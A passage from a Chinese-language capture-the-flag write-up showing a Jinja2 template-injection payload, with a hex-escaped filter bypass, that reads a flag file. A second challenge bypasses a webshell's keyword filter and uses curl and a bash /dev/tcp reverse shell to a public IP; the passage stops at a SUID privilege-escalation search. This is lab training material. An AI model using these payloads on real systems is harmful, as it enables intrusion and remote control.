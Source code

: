 得到 flag 的文件路径为 `/flag_in_h3r3_52daad`，再构造 payload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('open(\'/flag_in_h3r3_52daad\').read()')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x6f\x70\x65\x6e\x28\x27\x2e\x2e\x2f\x66\x6c\x61\x67\x5f\x69\x6e\x5f\x68\x33\x72\x33\x5f\x35\x32\x64\x61\x61\x64\x27\x29\x2e\x72\x65\x61\x64\x28\x29')}}
```

网页端得到 flag：

```plain
flag{01089939-9f12-4c7a-a50d-76f626381e39}
```

### So Baby RCE Again

访问靶机网址，WebShell 过滤了关键字`bash`和`curl`，可使用两点号` `` `绕过。

构造 Payload `bash -i &> /dev/tcp/47.97.152.130/54188 0>&1` 作为 `cmd` 参数发现并不行，没找到原因。

尝试在公网服务器上挂载脚本，并在靶机上 `curl`

```bash
curl -o shell.sh 47.97.152.130:54180
```

即传参 `?cmd=cu``rl%20-o%20shell.sh%2047.97.152.130:54180`

在公网服务器上使用 nc 监听

```shell
[root@Cnkid03~]$ nc -lvp 54188
```

然后在靶机上

```bash
bash shell.sh
```

即传参 `?cmd=bas``h%20shell.sh`

回到我们的公网服务器，发现已经拿到 shell.

进行常规的查找 flag 操作，易得 flag 存在于根目录中，进行 cat 操作

```shell
www-data@out:/$ cat ffll444aaggg
cat: ffll444aaggg: Permission denied
```

是的，shell 那么容易就拿到，出题人不会就此善罢甘休的。

考虑提权。查找具有 SUID 的文件：
